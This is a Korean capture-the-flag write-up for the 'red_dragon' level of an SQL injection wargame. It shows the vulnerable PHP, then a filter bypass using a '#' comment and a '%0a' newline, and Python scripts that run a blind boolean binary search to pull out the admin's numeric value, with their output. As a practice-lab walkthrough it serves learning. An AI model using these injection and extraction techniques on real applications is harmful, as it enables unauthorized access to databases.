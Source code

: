 # red_dragon

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- get 파라미터 `id`와 `no`를 받는다.   
- `id`는 7글자 이하로 받는다.   
- `no`는 변수 `$no`에 각각 숫자라면 그대로를, 숫자가 아니라면 1을 넣는다.
- 정확한 admin의 no를 찾아내면 문제가 해결된다.   

## 3. Solution
조건에 맞추어 적절히 쿼리를 분리시켰다.   
구체적으로 설명하자면, `no<9`가 있다면 `no<`를 `id`로, `9`를 `no`로 분리시킨 것이다.    
위와같이 분리시킨 후 각 파라미터의 조건을 충족시키면 공격쿼리의 완성이다.   

>    분리시킬 수 있었던 방법은 다음과 같다.   
`no<`뒤에 `#`을 붙여줌으로써, 한줄 주석을 진행하고   
`9`앞에 `%0a`를 붙여줌으로써, 개행을 진행하였다.   
결과적으로 한 문자열인 `no<9`가 되는것이다.   

본격적인 공격흐름은 평소와같이 크게 두가지로 나누었다.   
1. no값의 길이 구하기
2. 정확한 no값 구하기    

이전에 두 흐름속 공통적인 부분을 함수로 만들었다.   
정수값을 입력받아 `no<입력값` 진행 후   
응답 페이지 속 "Hello admin"을 기준삼아 참과 거짓을 반환하는 함수이다.   

```python
def dist_tf(num):
    url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no<%%23&no=%%0a%d" % (num)
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        return True;
    else:
        return False;
```   


------
### 1. no값의 길이 구하기   

변수명 | 값
---|---
`id` | '\|\|no<#
`no` | %0a`i`

>    `i`값은 1부터 10씩 곱해간 값(1,10,100,1000)을 넣어주었다.   
    결과적으로 `i`보다 작다면 `i-1`이 길이가 될 것이다.   

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

def dist_tf(num):
    url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no<%%23&no=%%0a%d" % (num)
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        return True;
    else:
        return False;
    
for i in range(1,100):
    print("%d ... " % (10**(i-1)), end="")
    if dist_tf(10**(i-1)):
        no_len = i - 1
        print("O\n")
        print("=======================")
        print("admin no length  |  %d" % (i-1))
        print("=======================\n")
        break
    
    else:
        print("X")
```   

>    결과는 다음과 같다.

```
1 ... X
10 ... X
100 ... X
1000 ... X
10000 ... X
100000 ... X
1000000 ... X
10000000 ... X
100000000 ... X
1000000000 ... O

=======================
admin no length  |  9
=======================
```


------
### 2. no의 정확한 값 찾아내기   

변수명 | 값
---|---
`id` | '\|\|no<#
`no` | %0a`i`

>    `max`와 `min`을 두어, `i`에 그 사잇값을 넣는다.   
    그렇게 `max`와 `min`을 좁혀가다, 두 차가 1이하라면 결과를 반환한다.   
>
>    코드는 다음과 같다.   
```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

def dist_tf(num):
    url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id='||no<%%23&no=%%0a%d" % (num)
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        return True;
    else:
        return False;
    
for i in range(1,100):
    print("%d ... " % (10**(i-1)), end="")
    if dist_tf(10**(i-1)):
        no_len = i - 1
        print("O\n")
        print("=======================")
        print("admin no length  |  %d" % (i-1))
        print("=======================\n")
        break
    
    else:
        print("X")
        
max = int('9'*no_len)
min = 10**(no_len-1)

for i in range(1,10000):
    if dist_tf(int((min+max)/2)):
        max = int((min+max)/2)
    else:
        min = int((min+max)/2)
    
    print("[%d] %d ~ %d" % (i, min, max))
    
    if ((max - min) <= 1):
        print("\n==============================")
        print("admin no  |  %d" % (min))
        print("==============================\n")
        break
```

>    결과는 다음과 같다.   

```
1 ... X
10 ... X
100 ... X
1000 ... X
10000 ... X
100000 ... X
1000000 ... X
10000000 ... X
100000000 ... X
1000000000 ... O

=======================
admin no length  |  9
=======================

[1] 549999999 ~ 999999999
[2] 549999999 ~ 774999999
[3] 549999999 ~ 662499999
[4] 549999999 ~ 606249999
[5] 578124999 ~ 606249999
[6] 578124999 ~ 592187499
[7] 585156249 ~ 592187499
[8] 585156249 ~ 588671874
[9] 585156249 ~ 586914061
[10] 586035155 ~ 586914061
[11] 586474608 ~ 586914061
[12] 586474608 ~ 586694334
[13] 586474608 ~ 586584471
[14] 586474608 ~ 586529539
[15] 586474608 ~ 586502073
[16] 586474608 ~ 586488340
[17] 586481474 ~ 586488340
[18] 586481474 ~ 586484907
[19] 586481474 ~ 586483190
[20] 586481474 ~ 586482332
[21] 586481903 ~ 586482332
[22] 586481903 ~ 586482117
[23] 586482010 ~ 586482117
[24] 586482010 ~ 586482063
[25] 586482010 ~ 586482036
[26] 586482010 ~ 586482023
[27] 586482010 ~ 586482016
[28] 586482013 ~ 586482016
[29] 586482014 ~ 586482016
[30] 586482014 ~ 586482015

==============================
admin no  |  586482014
==============================
```

최종적으로 위 값을 `no`로 넣어주면 문제가 해결된다.   

변수명 | 값
---|---
`no` | 586482014